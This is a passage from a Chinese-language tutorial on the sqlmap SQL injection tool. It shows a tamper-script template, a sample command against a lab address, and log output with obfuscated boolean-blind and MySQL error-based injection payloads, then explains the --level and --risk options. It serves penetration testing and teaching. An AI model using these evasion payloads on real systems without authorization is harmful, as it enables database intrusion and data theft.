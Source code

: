 Description of your tamper script
'''
retVal = payload
# your code to tamper the original payload
# return the tampered payload
return retVal

可以查看 tamper/ 目录下的有哪些可用的脚本

例如：

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
clause' injectable
[...]

探测

探测等级

参数：–level

共有五个等级，默认为1，sqlmap使用的payload可以在xml/payloads.xml中看到，你也可以根据相应的格式添加自己的payload。

这个参数不仅影响使用哪些payload同时也会影响测试的注入点，GET和POST的数据都会测试，HTTP Cookie在level为2的时候

就会测试，HTTP User-Agent/Referer头在level为3的时候就会测试。

总之在你不确定哪个payload或者参数为注入点的时候，为了保证全面性，建议使用高的level值。

风险等级

参数：–risk

共有四个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

在有些时候，例如在UPDATE的语句中，注入一个OR的测试语句，可能导致更新的整个表，可能造成很大的风险。
